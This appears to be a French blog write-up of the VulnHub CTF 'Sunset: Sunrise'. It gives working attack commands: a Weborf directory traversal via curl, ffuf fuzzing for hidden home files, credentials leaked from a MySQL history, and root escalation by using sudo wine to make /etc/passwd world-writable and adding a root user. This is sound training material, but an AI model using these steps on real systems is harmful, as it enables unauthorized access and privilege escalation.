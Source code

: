 ```yaml
---
title: "Solution du CTF Sunset: Sunrise de VulnHub"
tags: [CTF, VulnHub]
---
```


## Tequila Sunrise

La VM expose plusieurs services dont un serveur web WebOrf.

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp   open  http       nginx 1.14.2
3306/tcp open  mysql?
8080/tcp open  http-proxy Weborf (GNU/Linux)
```

Ce dernier est vulnérable à un directory traversal, faille assez classique sur les serveurs web méconnus.

[weborf 0.12.2 - Directory Traversal - Linux remote Exploit](https://www.exploit-db.com/exploits/14925)

Pas besoin d'exploit, cURL a le bon goût de ne pas retirer l'encodage du path lors des requêtes (avec la librairie `requests` pour Python il faudrait procéder à un double encodage) :

```console
$ curl "http://192.168.56.157:8080/%2e%2e/"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"><html><head><title>Weborf</title></head><body><table><tr><td></td><td>Name</td><td>Size</td></tr><tr style="background-color: #DFDFDF;"><td>d</td><td><a href="../">../</a></td><td>-</td></tr>
<tr style="background-color: #DFDFDF;"><td>d</td><td><a href="backups/">backups/</a></td><td>-</td></tr>
<tr style="background-color: #DFDFDF;"><td>d</td><td><a href="cache/">cache/</a></td><td>-</td></tr>
<tr style="background-color: #DFDFDF;"><td>d</td><td><a href="lib/">lib/</a></td><td>-</td></tr>
<tr style="background-color: #DFDFDF;"><td>d</td><td><a href="local/">local/</a></td><td>-</td></tr>
<tr style="background-color: #DFDFDF;"><td>d</td><td><a href="lock/">lock/</a></td><td>-</td></tr>
<tr style="background-color: #DFDFDF;"><td>d</td><td><a href="log/">log/</a></td><td>-</td></tr>
<tr style="background-color: #DFDFDF;"><td>d</td><td><a href="mail/">mail/</a></td><td>-</td></tr>
<tr style="background-color: #DFDFDF;"><td>d</td><td><a href="opt/">opt/</a></td><td>-</td></tr>
<tr style="background-color: #DFDFDF;"><td>d</td><td><a href="run/">run/</a></td><td>-</td></tr>
<tr style="background-color: #DFDFDF;"><td>d</td><td><a href="spool/">spool/</a></td><td>-</td></tr>
<tr style="background-color: #DFDFDF;"><td>d</td><td><a href="tmp/">tmp/</a></td><td>-</td></tr>
<tr style="background-color: #DFDFDF;"><td>d</td><td><a href="www/">www/</a></td><td>-</td></tr>
```

Quand je regarde dans `/home` je trouve les utilisateurs `sunrise` et `weborf`.

À première vue, rien d'intéressant dans leurs dossiers, mais avoir exploré le reste sans être plus avancé je décide d'y rejeter un œil.

Il s'avère que _WebOrf_ ne liste pas les fichiers cachés (pas de `.bashrc`, `.profile` ou `.bash_history`).

Je vais utiliser une wordlist spécifique pour trouver ces fichiers :

```console
$ ffuf -u "http://192.168.56.157:8080/%2e%2e/%2e%2e/home/weborf/FUZZ" -w home_files.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.157:8080/%2e%2e/%2e%2e/home/weborf/FUZZ
 :: Wordlist         : FUZZ: home_files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.profile                [Status: 200, Size: 807, Words: 128, Lines: 28]
.gnupg                  [Status: 301, Size: 0, Words: 1, Lines: 1]
.bashrc                 [Status: 200, Size: 3526, Words: 487, Lines: 114]
.local                  [Status: 301, Size: 0, Words: 1, Lines: 1]
.mysql_history          [Status: 200, Size: 83, Words: 8, Lines: 3]
:: Progress: [31/31] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

L'historique mysql de `weborf` contient un mot de passe :

```sql
show databases;
ALTER USER 'weborf'@'localhost' IDENTIFIED BY 'iheartrainbows44';
```

Le mot de passe permet un accès SSH mais aussi l'accès au MySQL qui contient un autre mot de passe :

```
MariaDB [(none)]> select User, Password from mysql.user;
+---------+-------------------------------------------+
| User    | Password                                  |
+---------+-------------------------------------------+
| root    | *C7B6683EEB8FF8329D8390574FAA04DD04B87C58 |
| sunrise | thefutureissobrightigottawearshades       |
| weborf  | *A76018C6BB42E371FD7B71D2EC6447AE6E37DB28 |
+---------+-------------------------------------------+
3 rows in set (0.000 sec)
```

## Sex on the beach

On peut alors utiliser ces identifiants pour le compte sunrise qui peut lancer `wine` via sudo :

```console
sunrise@sunrise:/home/weborf$ sudo -l
Matching Defaults entries for sunrise on sunrise:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sunrise may run the following commands on sunrise:
    (root) /usr/bin/wine
```

Le CTF [C0m80]({% link _posts/2018-03-04-Solution-du-CTF-C0m80-de-VulnHub.md %}) m'avait permis de découvrir l'option `start /unix` permettant d'exécuter des commandes Linux depuis Wine.

Je peux donc réutiliser cette technique, mais attention : Wine lance les programmes à la mode Windows, donc en tache de fond.

Faute de pouvoir lancer un shell, pour arriver à mes fins je crée un script bash qui change les permissions de `/etc/passwd` et je l'exécute depuis Wine :

```console
sunrise@sunrise:~$ cat script.sh 
#!/bin/bash
chmod 777 /etc/passwd
sunrise@sunrise:~$ chmod 777 script.sh 
sunrise@sunrise:~$ sudo /usr/bin/wine start /unix script.sh
sunrise@sunrise:~$ ls -al /etc/passwd
-rwxrwxrwx 1 root root 2435 Dec  5  2019 /etc/passwd
sunrise@sunrise:~$ echo devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh >> /etc/passwd
sunrise@sunrise:~$ su devloop
Password: 
# cd /root
# ls
Desktop  Documents  Downloads  Groups  Logs  Manual  Music  Pictures  Public  Readme  root.txt  Templates  Users  Videos
# cat root.txt
            ^^                   @@@@@@@@@
       ^^       ^^            @@@@@@@@@@@@@@@
                            @@@@@@@@@@@@@@@@@@              ^^
                           @@@@@@@@@@@@@@@@@@@@
 ~~~~ ~~ ~~~~~ ~~~~~~~~ ~~ &&&&&&&&&&&&&&&&&&&& ~~~~~~~ ~~~~~~~~~~~ ~~~
 ~         ~~   ~  ~       ~~~~~~~~~~~~~~~~~~~~ ~       ~~     ~~ ~
   ~      ~~      ~~ ~~ ~~  ~~~~~~~~~~~~~ ~~~~  ~     ~~~    ~ ~~~  ~ ~~
   ~  ~~     ~         ~      ~~~~~~  ~~ ~~~       ~~ ~ ~~  ~~ ~
 ~  ~       ~ ~      ~           ~~ ~~~~~~  ~      ~~  ~             ~~
       ~             ~        ~      ~      ~~   ~             ~

Thanks for playing! - Felipe Winsnes (@whitecr0wz)

24edb59d21c273c033aa6f1689b0b18c
```
